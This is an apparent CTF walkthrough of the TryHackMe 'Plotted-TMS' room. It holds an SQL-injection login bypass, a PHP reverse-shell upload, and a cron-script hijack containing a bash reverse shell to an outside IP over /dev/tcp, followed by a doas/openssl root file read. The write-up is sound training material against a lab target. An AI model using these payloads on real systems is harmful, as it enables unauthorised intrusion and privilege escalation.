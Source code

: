 # Plotted-TMS

A beginner-friendly CTF hosted on Tryhackme.com Created by "sa.infinity8888". Gole of this machine is boot to root, get user flag and root flag. and this room contains Enumeration, SQLI, and Privilege escalation

Let us boot up the machine as well as let's get the party started

start with Nmap scan

```
nmap -Pn -A -vvv -sV -sC -oN normal 10.10.255.29
```

which gives us open ports

```
PORT    STATE SERVICE REASON  VERSION
22/tcp  open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; pro
tocol 2.0)
80/tcp  open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
445/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

let us start with a directory scan with go buster

```
gobuster -u http://10.10.255.29/ -w ~/Tools/SecLists/Discovery/Web-Content/common.txt
```

Which gives us

```
=====================================================
2022/02/20 09:33:06 Starting gobuster
=====================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/admin (Status: 301)
/index.html (Status: 200)
/passwd (Status: 200)                                                                                                                                 /server-status (Status: 403)
/shadow (Status: 200)
=====================================================                                                                                                 2022/02/20 09:35:05 Finished
=====================================================
```

/admin directory contains id_rsa. Which contains base64 value
decode of it is

`Trust me it is not this easy..now get back to enumeration :D`

/passwd and /shadow also contains the same base64 and result is

`not this easy :D`

so not much found in PORT 80 so let us enumerate 445 with Go-Buster

```
gobuster -u http://10.10.255.29:445/ -w ~/Tools/SecLists/Discovery/Web-Content/common.txt
```

Which gives us

```
=====================================================
2022/02/20 09:50:36 Starting gobuster
=====================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/management (Status: 301)
/server-status (Status: 403)
=====================================================
2022/02/20 09:55:18 Finished
=====================================================
```

/management contains login button which redirect to http://10.10.255.29:445/management/admin/login.php

Let us pass username as admin and password as admin in response we got an Incorrect username or password.
so in the user name field, pass username as admin 'or 1=1-- -'
and any random password in the password field and sign in. we got into the portal

![Screenshot](./src/SQLI.png)

forthwith we will be using PHP reverse shell.
from https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
on this file we will change IP to our IP and 
and start nc listner
`nc -nlvp`

On the admin, portal visit the setting tab and replace a logo with our PHP reverse shell and update file. with that, we will get a reverse shell on our system

```
nc -nlvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.255.29 41970
Linux plotted 5.4.0-89-generic #100-Ubuntu SMP Fri Sep 24 14:50:10 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 04:48:07 up 56 min,  0 users,  load average: 1.43, 1.24, 1.26
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

now then we will Stabilise the shell

```
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@plotted:/$ ^Z
[1]+  Stopped                 nc -nlvp 1234
splitunknown@SplitUnknown:~/Desktop/Plotted-TMS$ stty raw -echo;fg
splitunknown@SplitUnknown:~/Desktop/Plotted-TMS$ nc -nlvp 1234
www-data@plotted:/$
```

we don't have much access as www-data on the system let's enumerate to get pwned plot_admin for user flag

`cat /etc/crontab`

`* * * * * plot_admin /var/www/scripts/backup.sh`

contains backup script which execute every one minutes.and we have write access to that folder. remove the backup.sh
create backup.sh on our system which contains

```
#!/bin/bash
/bin/sh -i >& /dev/tcp/10.8.244.200/8888 0>&1
```

and start python webserver

`python3 -m http.server`

then wget backup.sh in /var/www/scripts location

`wget http://10.8.244.200:8000/backup.sh`
give execute permission to backup.sh
`chmod +x backup.sh`
start listener on our system
`nc -nlvp 8888`

after 1 minute you should get the shell

![Screenshot](./src/backup.png)

![Screenshot](./src/plotuser.png)

stabilise the shellstabilise the shell

```
$ python3 -c "import pty;pty.spawn('/bin/bash')"
plot_admin@plotted:~$ ^Z
[1]+  Stopped                 nc -nlvp 8888
splitunknown@SplitUnknown:~/Desktop/Plotted-TMS$ stty raw -echo;fg
nc -nlvp 8888
```

greb user flag
`cat ~/user.txt`

let us move on to privilege escalation run this
`find / -type f -perm /4000 -ls 2>/dev/null`
to get suid binarys.
and we found /usr/bin/doas unusual suid.

```
plot_admin@plotted:~$ cat /etc/doas.conf
permit nopass plot_admin as root cmd openssl
```

we can run openssl without password with root access on doas

```
plot_admin@plotted:~$ file=/root/root.txt
plot_admin@plotted:~$ doas openssl enc -in "$file"
Congratulations on completing this room!
<ROOT_FLAG>
Hope you enjoyed the journey!
Do let me know if you have any ideas/suggestions for future rooms.
-sa.infinity8888
plot_admin@plotted:~$
```

I hope this walk-through was helpful. Thank you so much for reading it
Happy Hacking ❤
